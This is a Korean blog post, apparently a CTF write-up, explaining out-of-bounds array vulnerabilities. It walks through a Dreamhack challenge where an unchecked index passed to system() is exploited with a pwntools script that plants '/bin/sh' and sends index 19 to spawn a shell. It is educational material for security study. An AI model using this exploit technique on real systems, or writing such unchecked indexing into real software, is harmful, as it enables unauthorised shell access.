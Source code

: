 ```yaml
---
tistoryBlogName: k0n9
tistoryTitle: out of bound
tistoryVisibility: "3"
tistoryCategory: "1136867"
tistorySkipModal: true
tistoryPostId: "36"
tistoryPostUrl: https://k0n9.tistory.com/36
---
```

## Out Of Boundary란?

배열의 범위를 벗어난 메모리에 접근할 수 있는 취약점으로 개발자가 인덱스에 대한 검사를 제대로 하지 않으면 발생한다. 임의의 주소 읽기, 쓰기로 이어질 수 있다.

## 예시

```c
#inlcude <stdio.h>

int main(){

	int a[10];
	printf("%p\\n", a);
	printf("%p\\n", &a[0]);

	printf("----\\n");
	printf("%p\\n", a[-1]);
	printf("%p\\n", a[100]);

	return 0;
}
```

a의 배열이 0부터 9까지 있지만 범위를 넘어서서 오프셋에 따른 메모리를 참조한다.
### 예제_Dreamhack_out of bound
보호기법 체크

![](https://i.imgur.com/Fd0AFDk.png)


32bit인것을 알 수 있다.

c코드

```c
char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

중요한 부분만 가져왔다. scanf에서 idx에 대한 값을 검증하지 않으니 이부분을 노려보자. 우선 name에 /bin/sh를 입력하고 command에 idx값을 크게 줘서 name의 /bin/sh가 인자로 사용되면 된다.

```python
from pwn import *
import time

p = remote("host3.dreamhack.games", 12008)

name = 0x804a0ac

ex =  p32(name+4)
ex += b'/bin/sh'

p.sendafter("name: ", ex)
time.sleep(1)
p.sendafter("want?: ", b'19')

p.interactive()
```

전체 페이로드이다. 중요한 부분만 보자. 우선 name와 command의 차이는 79바이트이다.

![](https://i.imgur.com/rIBosmX.png)

32bit는 4바이트 64bit는 8바이트마다 1 인덱스이다. 79/4 = 19 즉. 19 인덱스 만큼 차이가 난다. 그래서 인덱스 값으로는 19를 준다. name에다가는 /bin/sh를 입력해야 하는데 여기서 중요한 점은 system 함수이다.

system(const char \*command); 의 형식을 가지고 있다. 즉 인자값으로 char 포인터를 받기 때문에 name에 name+4의 주소를 먼저 넣는다. 즉 0번인덱스가 1번 인덱스를 참조하게 되는 것이다. 그리고 1번 인덱스에 “/bin/sh”를 입력한다. 그러면 결과적으로 system(”/bin/sh”) 가 실행될 것이다.

![](https://i.imgur.com/DC6MdTC.png)
